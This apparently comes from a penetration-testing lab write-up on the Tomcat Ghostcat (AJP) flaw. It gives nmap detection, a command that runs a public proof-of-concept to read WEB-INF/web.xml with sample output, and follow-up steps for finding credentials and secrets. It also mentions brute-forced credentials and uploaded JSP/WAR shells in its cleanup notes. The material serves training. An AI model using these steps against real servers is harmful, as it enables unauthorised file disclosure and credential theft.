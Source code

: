 ### 📌 Overview

* Vulnerable versions: Tomcat < 9.0.31, < 8.5.51, < 7.0.100
* Flaw in **AJP (Apache JServ Protocol)** listener (default port **8009**).
* Allows reading of arbitrary files under webapps directory (e.g., `WEB-INF/web.xml`).

### 🔍 Detection with Nmap

```bash
nmap -sV -p 8009,8080 app-dev.inlanefreight.local
```

* Sample output:

  ```
  8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
  8080/tcp open  http    Apache Tomcat 9.0.30
  ```

### 🧪 Exploit with Public PoC Script

1. **Get the script** (e.g., `tomcat-ajp.lfi.py`).
2. **Run against target**:

   ```bash
   python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 \
     -f WEB-INF/web.xml
   ```
3. **Result**: Contents of `WEB-INF/web.xml` echo to console:

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <web-app ...>
     <display-name>Welcome to Tomcat</display-name>
     ...
   </web-app>
   ```
4. **Potential next steps**:

   * Read `tomcat-users.xml` if located under webapps (e.g., via path traversal).
   * Enumerate custom application descriptors (e.g., `WEB-INF/classes/*.class`).
   * Identify hard-coded secrets or sensitive endpoints.


## 📌 Cleanup & Reporting Artifacts

* **Document**:

  * Successfully brute-forced credentials (`tomcat:admin`).
  * Paths of uploaded shells (`/backup/cmd.jsp`, `backup.war`).
  * Files retrieved via Ghostcat (e.g., `WEB-INF/web.xml`).
* **Revert Changes**:

  * Undeploy/remove WAR uploads.
  * Remove any custom JSP or payload files.

---
